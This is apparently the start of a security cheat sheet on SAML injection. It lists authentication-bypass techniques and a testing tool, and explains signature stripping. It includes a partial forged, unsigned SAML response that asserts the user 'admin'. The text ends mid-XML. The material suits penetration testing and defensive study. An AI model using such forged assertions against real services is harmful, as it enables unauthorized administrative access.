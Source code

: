 # SAML Injection

> Security Assertion Markup Language (SAML) is an open standard that allows security credentials to be shared by multiple computers across a network. When using SAML-based Single Sign-On (SSO), three distinct parties are involved. There is a user (the so-called principal), an IDentity Provider (IDP), and a cloud application Service Provider (SP).  - centrify

## Summary

* [Tools](#tools)
* [Authentication Bypass](#authentication-bypass)
  * [Invalid Signature](#invalid-signature)
  * [Signature Stripping](#signature-stripping)
  * [XML Signature Wrapping Attacks](#xml-signature-wrapping-attacks)
  * [XML Comment Handling](#xml-comment-handling)
  * [XML External Entity](#xml-external-entity)
  * [Extensible Stylesheet Language Transformation](#extensible-stylesheet-language-transformation)

## Tools

- [SAML Raider - Burp Extension](https://github.com/SAMLRaider/SAMLRaider)


## Authentication Bypass

A SAML Response should contain the `<samlp:Response xmlns:samlp="urn:oasis:names:tc:SAML:2.0:protocol"`.

### Invalid Signature

Signatures which are not signed by a real CA are prone to cloning. Ensure the signature is signed by a real CA. If the certificate is self-signed, you may be able to clone the certificate or create your own self-signed certificate to replace it.

### Signature Stripping

> [...]accepting unsigned SAML assertions is accepting a username without checking the password - @ilektrojohn

The goal is to forge a well formed SAML Assertion without signing it. For some default configurations if the signature section is omitted from a SAML response, then no signature verification is performed.

Example of SAML assertion where `NameID=admin` without signature.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<saml2p:Response xmlns:saml2p="urn:oasis:names:tc:SAML:2.0:protocol" Destination="http://localhost:7001/saml2/sp/acs/post" ID="id39453084082248801717742013" IssueInstant="2018-04-22T10:28:53.593Z" Version="2.0">
    <saml2:Issuer xmlns:saml2="urn:oasis:names:tc:SAML:2.0:assertion" Format="urn:oasis:names:tc:SAML:2.0:nameidformat:entity">REDACTED</saml2:Issuer>
    <saml2p:Status xmlns:saml2p="urn:oasis:names:tc:SAML:2.0:protocol">
        <saml2p:StatusCode Value="urn:oasis:names:tc:SAML:2.0:status:Success" />
    </saml2p:Status>
    <saml2:Assertion xmlns:saml2="urn:oasis:names:tc:SAML:2.0:assertion" ID="id3945308408248426654986295" IssueInstant="2018-04-22T10:28:53.593Z" Version="2.0">
        <saml2:Issuer Format="urn:oasis:names:tc:SAML:2.0:nameid-format:entity" xmlns:saml2="urn:oasis:names:tc:SAML:2.0:assertion">REDACTED</saml2:Issuer>
        <saml2:Subject xmlns:saml2="urn:oasis:names:tc:SAML:2.0:assertion">
            <saml2:NameID Format="urn:oasis:names:tc:SAML:1.1:nameidformat:unspecified">admin</saml2:NameID>
            <saml2:SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
```